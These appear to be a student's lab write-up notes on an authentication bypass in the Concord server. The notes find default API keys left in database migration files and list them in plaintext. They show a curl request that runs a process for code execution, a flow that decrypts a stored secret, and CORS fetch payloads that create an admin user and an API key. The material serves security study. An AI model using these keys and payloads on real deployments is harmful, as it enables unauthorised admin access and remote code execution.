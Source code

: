 # Authentication Bypass: Insecure Defaults

*Note that this section is entirely white-box*

Many application deployments are used with default or automatic credentials, and as such, are often vulnerable to exploitation during code review. 

We can start by examining the initialization scripts to review how the application is booted and installed. The application runs the class defined in the `main_class` variable, which is set to either the `main` or `migrateDB` values. 

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled.png)

```bash
MAIN_CLASS="com.walmartlabs.concord.server.dist.Main"
if [[ "${CONCORD_COMMAND}" = "migrateDb" ]]; then
	MAIN_CLASS="com.walmartlabs.concord.server.MigrateDB"
fi

"${MAIN_CLASS}"
```

Database migrations are used to initialize the application or update applications database to current versions. We should review migrations to understand the database layout. Searching for `class migrateDB`, we are led to the file `migrateDB.java`. 

```java
import com.walmartlabs.concord.db.DatabaseModule;

public class MigrateDB {

    @Inject
    @MainDB
    private DataSource dataSource;

    public static void main(String[] args) throws Exception {
        EnvironmentSelector environmentSelector = new EnvironmentSelector();
        Config cfg = new ConfigurationProcessor("concord-server", environmentSelector.select()).process();

        Injector injector = Guice.createInjector(
                new WireModule(
                        new SpaceModule(new URLClassSpace(MigrateDB.class.getClassLoader()), BeanScanning.CACHE),
                        new OllieConfigurationModule("com.walmartlabs.concord.server", cfg),
                        new DatabaseModule()));

        new MigrateDB().run(injector);
    }

    public void run(Injector injector) throws Exception {
        injector.injectMembers(this);

        try (Connection conn = dataSource.getConnection();
             Statement st = conn.createStatement()) {
            st.execute("select 1");
        }
    }
}
```

In particular, one of the classes referenced is the `DatabaseModule` which comes from `com.walmartlabs.concord.db`. Additionally, we also find that the `resources/com/walmartlabs/concord/server/db` directory that contains XML database setup files. 

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled%201.png)

Among them, there is an xml file called `liqudbase.xml`, and several version files. Liquidbase is an open-source DB schema change management solution that helps manage database revisions. This likely holds information about table names, columns and data. 

```xml
<!-- USERS -->

    <changeSet id="1200" author="ibodrov@gmail.com">
        <createTable tableName="USERS" remarks="Users">
            <column name="USER_ID" type="varchar(36)" remarks="Unique user ID">
                <constraints primaryKey="true" nullable="false"/>
            </column>
            <column name="USERNAME" type="varchar(64)" remarks="Unique name of a user (login)">
                <constraints unique="true" nullable="false"/>
            </column>
        </createTable>
    </changeSet>

    <changeSet id="1210" author="ibodrov@gmail.com">
        <insert tableName="USERS">
            <column name="USER_ID">230c5c9c-d9a7-11e6-bcfd-bb681c07b26c</column>
            <column name="USERNAME">admin</column>
        </insert>
    </changeSet>
    
    <changeSet id="1440" author="ibodrov@gmail.com">
        <insert tableName="API_KEYS">
            <column name="KEY_ID">d5165ca8-e8de-11e6-9bf5-136b5db23c32</column>
            <!-- original: auBy4eDWrKWsyhiDp3AQiw -->
            <column name="API_KEY">KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA</column>
            <column name="USER_ID">230c5c9c-d9a7-11e6-bcfd-bb681c07b26c</column>
        </insert>
    </changeSet>
```

This actually contains an API_KEY, and not only does it contain the encrypted key in the database, but it also contains the original, unencrypted key that we can directly use to authenticate against the server. For more information for the authentication, refer to the Extra Mile 11.2.5.2 section. 

However, when we use this key, we are unable to authenticate into the application. This could be due to later versions overriding this specific API key. As such, we can search through the XML files for any later updates: `grep -rl 'insert tableName="API_KEYS">' ./`

- Note that `-r` in `grep` refers to recursive while `l` refers to “files fulfilling the condition”

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled%202.png)

We can thus use the API key `c45549ac-40d6-4abf-8cd8-aca76ef55307` found in `v0.69.0.xml` to access the user interface. 

### API Keys

| Version | Original | Encrypted Key |
| --- | --- | --- |
| v0.0.1.xml | auBy4eDWrKWsyhiDp3AQiw | KLI+ltQThpx6RQrOc2nDBaM/8tDyVGDw+UVYMXDrqaA |
| v0.69.0.xml | O+JMYwBsU797EKtlRQYu+Q | 1sw9eLZ41EOK4w/iV3jFnn6cqeAMeFtxfazqVY04koY |
| v0.70.0.xml | Gz0q/DeGlH8Zs7QJMj1v8g | DrRt3j6G7b6GHY/Prddu4voyKyZa17iFkEj99ac0q/A |

## Exercises 11.3.1.1

1. *Attempt to use the first API key in Concord 1.43.0. Why does it not work in 1.83.0?*
2. *Explain how Concord hashes API keys before they are stored*

Concord performs a SHA-256 hash on the API keys, then performs a message digest hash function on the data, before finally encoding the data as base64. Refer to Extra Mile 11.2.5.2 for the source code and generation. 

1. *Review v0.70.0.xml and discover any entries*

The API key discovered authenticates the `concordRunner` user. 

1. *Obtain RCE with a curl request using the newly discovered API keys*

```bash
curl -H "Authorization: auBy4eDWrKWsyhiDp3AQiw" -F concord.yml=@concord.yml http://concord:8001/api/v1/process
```

1. *Using a Concord process, decrypt this `vyblrnt+hP8GNVOfSl9WXgGcQZceBhOmcyhQ0alyX6Rs5ozQbEvChU9K7FWSe7cf` secret value. The value was encrypted using the `Offsec` org and the `AWAE` project in Concord 1.43.0.* 

Concord provides an API to create and manage various secrets that can be used in user flows and for Git repository authentication. Secrets are created and managed using the Secret API endpoint or UI. 

Source: [Concord | Security and Permissions (walmartlabs.com)](https://concord.walmartlabs.com/docs/getting-started/security.html)

To decrypt the key in the right context, we modify our request to specify the organization ID and project name when creating our process

```python
headers = {'Authorization': api_key}

files = {
  'concord.yml': ("concord.yml", yml, 'application/yml')
}

data = {
	"orgId": "a33f418a-a474-11eb-a57c-0242ac120003",
	"project": "AWAE"
}

r = s.post(target, headers=headers, files=files, data=data)

```

In the project `AWAE`, we first allow payload archives so that we can use the `concord.yml` file to create a process. 

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled%203.png)

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled%204.png)

This gives us the message `Hello, Džemujem ja stalno ali nemam džema`

```yaml
flows:
  default:
  - log: "Hello, ${crypto.decryptString('vyblrnt+hP8GNVOfSl9WXgGcQZceBhOmcyhQ0alyX6Rs5ozQbEvChU9K7FWSe7cf')}"

```

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled%205.png)

## Extra Mile 11.3.1.2

*Since authorization is allowed in CORS request, we would be able to send authenticated request even if we don’t have network access to the application. Create a CORS payload using the Authorization header and discovered credentials, that should create a new admin user, generate a new API key, and obtain a shell.* 

https://concord.walmartlabs.com/docs/api/user.html

```jsx
fetch("http://concord:8001/api/v1/user", {
	headers: {
		"Authorization": "auBy4eDWrKWsyhiDp3AQiw",
		"Content-Type": "application/json"
	},
	body: JSON.stringify({
		"username": new_user_name,
		"type": "LOCAL",
		"roles": ["concordAdmin"]
	}),
	method: "POST"
})
```

https://concord.walmartlabs.com/docs/api/apikey.html

```jsx
fetch("http://concord:8001/api/v1/apikey", {
	headers: {
		"Authorization": "auBy4eDWrKWsyhiDp3AQiw",
		"Content-Type": "application/json"
	},
	body: JSON.stringify({
		"username": new_user_name
	}),
	method: "POST"
})
```

Looking through the databases, we find that the administrator role is called `concordAdmin`.  We can assign this role using the `roles` parameter. 

```sql
\dt;
select * from users;
select * from user_roles;
select * from roles;
```

![Untitled](Authentication%20Bypass%20Insecure%20Defaults%20406759fa1a0c4fda881fb7028d72cf73/Untitled%206.png)